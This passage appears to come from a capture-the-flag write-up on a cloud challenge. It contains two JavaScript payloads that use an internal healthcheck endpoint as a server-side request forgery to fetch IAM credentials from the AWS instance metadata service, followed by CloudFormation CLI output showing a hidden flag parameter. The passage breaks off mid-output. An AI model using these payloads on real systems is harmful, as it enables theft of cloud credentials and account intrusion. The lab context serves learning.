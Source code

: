 It showed some AWS CloudFormation thing. I found out that this was the output for when some CloudFormation is being created.

I continued and tested with IMDSv1 (since there was no feasible way to do PUT requests) and got around to getting the credentials.
```json
<script>
  const url = "http://172.31.73.190/api/healthcheck?url=" +
              encodeURIComponent("http://169.254.169.254/latest/meta-data/iam/security-credentials/");
  const x = new XMLHttpRequest();
  x.onreadystatechange = function(){
    if(x.readyState === 4){
      document.open();
      document.write('<html><body><font size="2"><pre>' + (x.responseText||'') + '</pre></font></body></html>');
      document.close();
    }
  };
  x.open("GET", url, true);
  x.send();
</script>
```
```json
<script>
  const role = "internal-ec2";
  const url = "http://172.31.73.190/api/healthcheck?url=" +
              encodeURIComponent("http://169.254.169.254/latest/meta-data/iam/security-credentials/" + role);
  const x = new XMLHttpRequest();
  x.onreadystatechange = function(){
    if(x.readyState === 4){
      document.open();
        document.write('<html><body style="font-size: 1px"><pre id="code"></pre></body></html>');
        document.close();
        document.getElementById("code").textContent = x.responseText;
    }
  };
  x.open("GET", url, true);
  x.send();
</script>
```

#### claws-internal: AWS CLI

I checked the stack and found that there is a parameter with `flagpt2`. However, it is hidden.
```shell
$ aws cloudformation describe-stacks --stack-name pawxy-sandbox-83dbf0fb
{
    "Stacks": [
        {
            "StackId": "arn:aws:cloudformation:ap-southeast-1:533267020068:stack/pawxy-sandbox-83dbf0fb/a7ea5220-996a-11f0-bec6-029394e9e639",
            "StackName": "pawxy-sandbox-83dbf0fb",
            "Description": "Flag part 2\n",
            "Parameters": [
                {
                    "ParameterKey": "flagpt2",
                    "ParameterValue": "****"
                }
            ],
            "CreationTime": "2025-09-24T17:19:41.217000+00:00",
            "RollbackConfiguration": {},
            "StackStatus": "CREATE_FAILED",
            "StackStatusReason": "The following resource(s) failed to create: [AppDataStore]. ",
```